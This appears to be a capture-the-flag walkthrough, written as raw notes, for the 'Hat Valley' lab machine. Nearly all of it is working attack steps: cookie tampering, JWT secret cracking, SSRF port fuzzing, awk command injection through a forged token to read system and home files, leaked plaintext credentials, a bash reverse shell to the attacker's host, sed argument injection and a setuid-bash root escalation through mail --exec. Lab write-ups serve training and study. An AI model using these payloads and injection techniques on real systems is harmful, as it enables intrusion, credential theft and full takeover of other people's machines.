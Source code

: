 ping 10.10.11.185
whatweb 10.10.11.185

echo "10.10.11.185 hat-valley.htb" >> /etc/hosts

nmap -p- --min-rate 10000 hat-valley.htb

ffuf -c -w '/root/Downloads/Tools/subdomains-top1million-5000.txt' -u http://hat-valley.htb -H "Host: FUZZ.hat-valley.htb" --fs 132 -> get store

echo "10.10.11.185 store.hat-valley.htb" >> /etc/hosts
access store.hat-valley.htb -> need password
ignore for while

access webpage -> page source -> js/app.js
/api/get_all, /api/login, /api/staff_details, /api/store_status

on hat-valley.htb/hr, login page
on cookie editor, change "token=guest" to "token=admin"

enter admin page
access hat-valley.htb/api/staff-details -> get error
on cookie editor, remove "token" -> get accounts with password
copy passwords and access crack station -> try to crack hashes

christopher.jones:chris123
come bakc to hat-valley.htb/hr page and login on chris
on cookie editor, copy JWT token

crack jwt (https://github.com/Sjord/jwtcrack/blob/master/jwt2john.py)
python3 jwt2john.py <token found> > jwt-hash.txt
john -w=../rockyou.txt jwt-hash.txt
jwt-hash:123beany123

ssrf
http://hat-valley.htb/dashboard/api/store-status?url='http://hat-valley.htb'

ffuf -c -w ../4-digits-0000-9999.txt -u 'http://hat-valley.htb/api/store-status?url="http://hat-valley.htb:FUZZ"' -fs 0 -> get ports 80, 3002 and 8080

port 3002 - api info
on /api/all-leave, awk command is vulnerable

go to jwt.io
with secret "123beany123", make other jwt token change the username to:
"/' /etc/passwd '" -> Bean and Christine
curl http://hat-valley.htb/api/all-leave --header "Cookie: token=<generated cookie>"

"/' /home/bean/.bashrc '" -> backup script

"/' /home/bean/Documents/backup_home.sh '" -> get bean_backup_final.tar.gz

"/' /home/bean/Documents/backup/bean_backup_final.tar.gz '"
curl http://hat-valley.htb/api/all-leave --header "Cookie: token=<generated cookie>" --output bean_backup_final.zip

extract bean_backup_final.zip, extract bean_backup_final.tar.gz
cd bean_backup_final

cat .config/xpad/content-DS1ZS1
bean.hill:014mrbeanrules!#P
ssh bean@hat-valley.htb
type password
get user.txt

sudo -l -> nothing
cat /etc/nginx/conf.d/.htpasswd
admin:$apr1$lfvrwhqi$hd49MbBX3WNluMezyjWls1 -> password isn't crackble - use bean password

access store.hat-valley.htb -> login admin:014mrbeanrules!#P

rce (https://gtfobins.github.io/gtfobins/sed/)
nano /tmp/surprise.sh
------------------------------------------------------------
#!/bin/bash
bash -i >& /dev/tcp/<kali ip>/<port> 0>&1
------------------------------------------------------------
chmod +x /tmp/surprise.sh

access store and add one item in cart
go to cart page -> don't reload the page
cd /cart
ls

rm -rf <number name file>
nano <same number name file>
------------------------------------------------------------
***Hat Valley Cart***
item_id=1' -e "1e /tmp/surprise.sh" /tmp/surprise.sh '&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90
------------------------------------------------------------

nc -nvlp <port>

start burp suite intecepting -> access site again on cart page -> remove product
on burp, replace in "item" parameter:
item=1'+-e+"1e+/tmp/surprise.sh"+/tmp/shsurpriseell.sh+'&user=<your user number>&action=delete_item
send and get reverse www-data shell

run pspy64
inotifywait is monitoring
echo "test" >> leave_request.csv -> test the monitoring

get root (https://gtfobins.github.io/gtfobins/mail/)
nano /tmp/root.sh
------------------------------------------------------------
#!/bin/bash
chmod +s /bin/bash
------------------------------------------------------------
chmod +x /tmp/root.sh

echo '" --exec="\!/tmp/root.sh"' >> leave_requests.csv
get root.txt